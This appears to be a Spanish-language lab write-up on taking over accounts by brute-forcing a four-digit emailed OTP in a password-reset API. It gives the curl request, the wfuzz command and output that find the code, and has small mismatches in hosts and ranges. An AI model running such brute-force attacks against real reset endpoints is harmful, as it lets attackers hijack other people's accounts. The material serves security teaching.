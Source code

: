 ![portada_reset_password](img/reset_password_portada.png)

# Atacando a los sistemas de restablecimiento de contraseñas
Sabemos que las contraseñas son necesarias para la autenticación en diferentes tipos de sistemas. Las empresas, cada vez más por suerte, cuidan que sus políticas de contraseñas sean lo suficientemente robustas para forzar a sus empleados a que sigan las mejores prácticas e intentar impedir que un atacante pueda adivinarlas por fuerza bruta.

Sin embargo, otro vector de ataque son los mecanismos de auto restablecimiento de contraseñas que las empresas ofrecen a sus empleados, por ejemplo, ante un olvido de la misma. En este artículo, veremos cómo aprovecharnos de un mecanismo de restablecimiento de contraseña que usa OTP.

# OTP
Primero, explicaremos qué es OTP. OTP, del inglés One-Time Password, es una contraseña de un solo uso y, por tanto, pierde su validez después de su uso. Habitualmente, es usada como parte de de una autenticación de doble factor o como parte de los mecanismos de restablecimiento de contraseñas. Esta contraseña suele enviarse por correo electrónico o por SMS para que pueda ser introducida por el usuario. También podría ser generada/visualizada mediante aplicaciones como DUO o Microsoft Authenticator.

A continuación, simularemos un ataque a un mecanismo OTP que envía la clave mediante correo electrónico. Partiremos del correo electrónico obtenido en fases previas de enumeración: MasonJenkins@ymail.com

Según podemos ver en la imagen, tenemos acceso a un punto final de una API que permite restablecer la contraseña de un usuario, añadiendo como parámetros el correo electrónico asociado, la clave OTP y la nueva clave final. En la descripción del propio punto final, vemos que la clave OTP supuestamente tiene una duración máxima de 5 minutos. Dado que no tenemos el control de la cuenta de correo electrónico del usuario, intentaremos un ataque por fuerza bruta al mecanismo OTP que deberá completarse antes de esos 5 minutos.

![api_otp](img/reset_password_2.png)

Tenemos a nuestra disposición otro método de la API, que permite el envío de la clave OTP a una dirección de correo electrónico asociada a una cuenta de usuario.

![api_otp](img/reset_password_1.png)

Realizamos la petición de restablecimiento de contraseña, para que se genere la clave OTP.
```bash
# curl -X 'POST' 'http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets/email-otps' -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"Email": "MasonJenkins@ymail.com"}'
{"SuccessStatus":true}
```

Es habitual encontrar mecanismos OTP que devuelven contraseñas de entre 4 a 6 carácteres, todos numéricos. A continuzación, realizamos nuestro ataque de fuerza bruta con wfuzz, con un rango desde el 0001 hasta el . Con el parámetro "--hh" ocultamos las peticiones fallidas, que devuelven un total de 23 carácteres ("SuccessStatus": false). 
```bash
#wfuzz -c --hh 23 --hc 404 -u http://94.237.59.180:50815/api/v1/authentication/customers/passwords/resets -z range,0000-9999 -H "Content-Type: application/json" -d '{"Email": "MasonJenkins@ymail.com", "NewPassword": "Test1234", "OTP":"FUZZ"}'

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets
Total requests: 9999

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================
000007435:   200        0 L      1 W        22 Ch       "7435"

                                            
Total time: 51.76655
Processed Requests: 9999
Filtered Requests: 9998
Requests/sec.: 193.1555

```
Como vemos en el resultado de la ejecución de wfuzz, conseguimos en menos de un minuto el código OTP y, por tanto, cambiar la contraseña al usuario.







